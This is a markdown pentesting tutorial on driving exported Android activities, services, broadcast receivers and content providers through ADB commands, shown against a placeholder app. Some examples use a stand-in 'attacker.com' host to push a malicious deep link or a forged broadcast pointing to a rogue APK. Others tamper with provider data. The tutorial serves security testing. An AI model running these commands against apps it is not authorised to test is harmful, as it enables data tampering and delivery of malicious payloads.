 When analyzing or pentesting an Android application, it is often necessary to interact directly with its **components** (Activities, Services, BroadcastReceivers, Content Providers). ADB (`adb shell am ...` and `adb shell content ...`) allows you to do this without modifying the app or writing code. This is especially useful to test exported components or those with weak permission controls.

---

## Starting an Activity

An **Activity** is a single screen in an Android application. If it is **exported** or has an Intent filter, it can be launched externally.

#### Syntax
```bash
adb shell am start -n <package>/<activity>
```

#### Common Flags

- `-a` → Action (e.g., `android.intent.action.VIEW`)
- `-d` → Data URI (deep link or resource)
- `--es` → String extra
- `--ei` → Integer extra
- `--ez` → Boolean extra
- `--esn` → Null string extra


### Examples

1. Start the main Activity:
```bash
adb shell am start -n com.example.app/.MainActivity
```

2. Open a WebView Activity with a malicious deep link:
```bash
adb shell am start -n com.example.app/.WebViewActivity \
    -a android.intent.action.VIEW \
    -d "http://attacker.com/payload.html"
```

3. Pass custom extras:
```bash
adb shell am start -n com.example.app/.LoginActivity \
    --es username "admin" \
    --es password "1234"
```


---

## Starting a Service

A **Service** runs in the background without UI. If **exported**, it can be invoked by an attacker.

#### Syntax
```bash
adb shell am startservice -n <package>/<service>
```

#### Examples

1. Start a background service:
```bash
adb shell am startservice -n com.example.app/.SyncService
```

2. Start a service with an action and parameters:
```bash
adb shell am startservice -n com.example.app/.BackgroundService \
    -a com.example.app.ACTION_SYNC \
    --es userId "42"
```


---

## Sending a Broadcast Intent

A **BroadcastReceiver** listens for system-wide messages (like WiFi connection changes, incoming SMS, etc.). If exported, an attacker can send **forged broadcasts**.

#### Syntax
```bash
adb shell am broadcast -n <package>/<receiver> -a <action>
```

#### Examples

1. Trigger a custom app broadcast:
```bash
adb shell am broadcast -n com.example.app/.MyReceiver \
    -a com.example.app.ACTION_NOTIFY \
    --es message "Hello from ADB"
```

2. Simulate system broadcasts:
```bash
adb shell am broadcast -a android.intent.action.BOOT_COMPLETED
```

3. Send malicious extras:
```bash
adb shell am broadcast -n com.example.app/.UpdateReceiver \
    -a com.example.app.ACTION_UPDATE \
    --es url "http://attacker.com/update.apk"
```


---

## Querying an Exported Content Provider

A **Content Provider** manages structured app data (often backed by SQLite). If **exported**, it can be accessed externally.

#### Syntax
```bash
adb shell content query --uri content://<authority>/<path>
```

#### Examples

**Basic Query**
```bash
adb shell content query --uri content://com.example.app.provider/users
```

**Inserting Data**
Add a new row to the provider using `--bind` to specify column values:
```bash
adb shell content insert --uri content://com.example.app.provider/users \
    --bind "username:s:attacker" \
    --bind "password:s:1234"
```

**Updating Data**
Modify existing rows with `--where` to filter:
```bash
adb shell content update --uri content://com.example.app.provider/users \
    --where "id=1" \
    --bind "username:s:evil"
```

**Deleting Data**
Remove rows with `--where`:
```bash
adb shell content delete --uri content://com.example.app.provider/users \
    --where "id=1"
```

**Discover Providers**
```bash
adb shell dumpsys package com.example.app | grep provider
```
